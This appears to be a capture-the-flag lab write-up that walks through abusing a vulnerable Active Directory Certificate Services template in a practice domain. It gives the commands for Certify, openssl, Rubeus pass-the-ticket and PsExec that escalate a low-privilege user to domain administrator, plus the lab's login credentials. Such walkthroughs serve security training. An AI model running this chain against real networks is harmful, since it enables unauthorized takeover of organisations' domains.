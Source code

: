 ```yaml
---
date: 2025-03-29
categories: [CTF, IML]
title: "IML - Kerberos: Ep.12 – Active Directory Certificate Services"
tags: ['kerberos', 'powershell', 'privilege escalation', 'rce', 'windows']

description: "Kerberos Ep.12 – Active Directory Certificate Services - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.12 – Active Directory Certificate Services


![image1](../resources/7d7a429777be4cf19f3ba70208d789a8.png)

# ![image2](../resources/c4da4ac2027b4e3a91982717374c9066.png)

- RDP:
```bash
xfreerdp /v:10.102.155.250 /u:s.villanelle /p:Summ3r2021! /d:krbtown +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image3](../resources/a9a5876ac10240f8aad2da637531d87b.png)

- Find vulnerable templates:
```bash
.\Certify.exe find /vulnerable

```

![image4](../resources/4d5053b71ba6429599937c68df085f50.png)


![image5](../resources/1c64d1f5b87b4b968899a696cd2d43c7.png)

Certify request /ca:\<Name of the CA retrieved previously\> /template:\<Name of the vulnerable template\> /altname:\<User to impersonate\>

```bash
.\Certify.exe request /ca:DC01.krbtown.local\krbtown-DC01-CA /template:VulnTemplate /altname:Administrator

```

![image6](../resources/ad0e7c5968c24307849204d267c2bfb7.png)


![image7](../resources/e2efa4d4c0a54ff6840669157a13476a.png)


![image8](../resources/d86ff838cf6a4702bfe5e7ee7efaf3a5.png)

- Copy RSA key and Cert and paste in to Kali (cert.pem):

- Run (Leave passwords blank):
```bash
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

```

![image9](../resources/8e7f664fc6dc4c7fbf64c38c6cb1ef51.png)


![image10](../resources/85bc0f8d3de64b9d8cfab52f5f1134b0.png)


![image11](../resources/85dc7fd2b2ee45a2b23c26ff1d216147.png)

- Copy that file through the mounted drive to the Windows Desktop

- Open Powershell:
```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:Administrator /ptt

```

![image12](../resources/266bfb7099854794b544397155b6ea0d.png)


![image13](../resources/10154dc0477d4a01b64822ffb0026a7f.png)

- Now that you have a TGT for the administrator user, you can use PsExec to log in to the DC:
```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```

![image14](../resources/381d5bb04ab04527a744dbb196399635.png)


![image15](../resources/4d997eadf3e646d898b9bcc6d7ae6cf2.png)